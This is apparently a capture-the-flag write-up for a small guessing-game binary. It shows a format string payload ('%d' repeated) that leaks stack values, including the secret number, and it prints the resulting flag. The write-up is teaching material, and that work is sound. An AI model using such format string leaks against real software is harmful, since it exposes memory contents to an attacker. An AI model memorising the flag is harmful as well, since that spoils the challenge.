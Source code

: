 ```text
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
4
Not even close!
```

Next, we select Option 2 and use a format string attack to print the first few values from the stack as decimal integers (`%d`). The random number from Option 1 is the 7th number printed, `83798`:

```text
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
%d %d %d %d %d %d %d %d %d %d
Same! I love 
134520960 64 134514518 1 -6254908 -6254900 83798 -135281700 -6255056 0
too!
```

Finally, we skip to the guessing part (`mat4`) by choosing an unknown option, then input the correct answer to get the flag:

```text
Let's get to know each other!
1. Do you know me?
2. Do I know you?
3
I print instructions 4 what
Guess my favourite number!
83798
Yes! You know me so well!
SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}
```

### Flag

```text
SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}
```
